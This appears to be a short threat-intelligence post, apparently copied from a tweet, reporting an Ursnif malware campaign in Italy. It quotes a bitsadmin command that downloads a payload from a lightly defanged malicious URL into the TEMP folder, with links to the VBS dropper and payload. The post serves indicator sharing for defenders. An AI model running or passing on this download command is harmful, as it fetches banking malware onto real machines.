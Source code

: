 ```yaml
---
layout: post
title: JAMESWT
date: 2018-08-09 03:00:21
tourl: www.baidu.com
tags: [BITSAdmin]
---
```

bitsadmin /transfer msd5 /priority foreground htt]p://oregoncoastlocalnews.com/pagfurj47.php %TEMP%\ursnif.txt
#ursnif #italy
vbs
https://t.co/2WrUiDcFn5
payload
https://t.co/9N9Fnky2gf
@VirITeXplorer @CertPa @illegalFawn @a_de_pasquale @Antelox @SettiDavide89 @VK_Intel @benkow_